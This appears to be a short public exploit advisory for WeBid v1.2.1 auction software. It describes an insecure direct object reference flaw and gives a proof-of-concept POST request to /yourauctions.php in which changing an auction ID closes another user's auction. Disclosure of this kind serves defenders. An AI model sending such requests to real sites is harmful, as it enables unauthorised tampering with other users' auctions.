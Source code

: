 # Exploit Title: Webid v1.2.1 - Insecure Direct Object Reference(IDOR)
## Date: 2/1/2024
## Vendor Homepage: https://sourceforge.net/projects/simpleauction/files/latest/download
## Tested on: Debian Linux, Apache, Mysql
## Vendor: Webid
## Version: v1.2.1
## Exploit Description:
## Webid v1.2.1 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to close an active auction that is owned by other user(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /yourauctions.php HTTP/1.1
...

csrftoken=78899377e1baac0dedb6f939e65ffad9&closenow%5B%5D=7(CHANGE HERE)&action=delopenauctions&Submit=Process+selected+auctions
```